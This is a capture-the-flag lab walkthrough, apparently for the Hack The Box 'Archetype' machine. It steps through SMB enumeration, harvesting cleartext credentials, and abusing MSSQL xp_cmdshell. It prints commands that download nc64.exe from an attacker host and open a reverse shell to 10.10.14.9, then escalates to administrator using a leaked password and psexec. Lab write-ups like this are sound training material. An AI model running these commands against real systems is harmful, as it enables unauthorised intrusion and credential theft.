# 1. Enumeration

- Performing a network scan to detect what ports are open:




- We found that SMB ports are open and also that a Microsoft SQL Server is running on port 1433. We are going to enumerate
the SMB with `smbclient`:

 

- We located a couple of interesting shares. Shares `ADMIN$` and `C$` cannot be accessed as the `Access Denied` error states,
however, we can access the `backup` share:


- `pord.dtsConfig` seems like a configuration file. We can download it and view it's content:



- By reviewing the content of this file, we spot in cleartext the password of `sql_svc`, which is `M3g4c0rp123`, for
the host `ARCHETYPE`. With the provided credentials, we just need a way to authenticate and interact to the MSSQL server.
`Impacket` tool includes a valuable python script called `mssqlclient.py` which offers such functionality.

---
```
Impacket is a collection of Python classes for working with network protocols. Impacket
is focused on providing low-level programmatic access to the packets and for some
protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be
constructed from scratch, as well as parsed from raw data, and the object oriented API
makes it simple to work with deep hierarchies of protocols. The library provides a set
of tools as examples of what can be done within the context of this library.
```
---

- We can try to connect to the MSSQL Server by using the following command:

```
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
```

```
-windows-auth : this flag is specified to use Windows Authentication
```



# 2. Foothold

- First, we need to enable `xp_cmdshell`  to set up the command execution:

```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

- Now, we will attempt to get a stable reverse shell. We will upload the `nc64.exe` binary to the target machine and execute
an interactive `cmd.exe` process on our listening port.

- Start an HTTP server and netcat listener:

```
python -m http.server 80
nc -lnvp 443
```

- In order to upload the binary to the target system, we need to find the appropriate folder (C:\Users\sql_svc\Downloads). 

```
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget
http://10.10.14.9/nc64.exe -outfile nc64.exe"
```

- We can verify on our python server that the target machine indeed performed the request:



- Now, we can bind the `cmd.exe` through `nc` to our listener:

```
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe
10.10.14.9 443"
```

- Finally, we have successfully established a reverse connection from the target machine to our netcat listener:




- The user flag can be found under `C:\Users\sql_svc\Desktop`

# 3. Privilege Escalation

- For privilege escalation, we are going to use a tool called `winPEAS`, which can automate a big part of the 
enumeration process in the target system. 
More info <a href="https://academy.hackthebox.com/course/preview/windows-privilege-escalation">here</a>

- Again, we will transfer the binary to the target system by using once more the Python HTTP server:



- Now execute it and wait for the magic to happen. Note that the output is very long, but here is the important part:



- From the output we can observe that we have `SeImpersonatePrivilege` (more info
<a href="https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege">here</a>)
, which is vulnerable to <a href="https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato">juicy potato exploit</a>.
However, we can first check the 2 existing files where credentials could possibly be found.

- As this is normal user account as well as service account, it is worth checking for frequently access files or 
executed commands (`ConsoleHost_history.txt`)



- We got in cleartext the password for the Administrator user which is `MEGACORP_4dm1n!!`

- We can now use the tool `psexec.py` again from the `Impacket` suite to get a shell as the administrator:



- The root flag can now be found on the Desktop of the Administrator user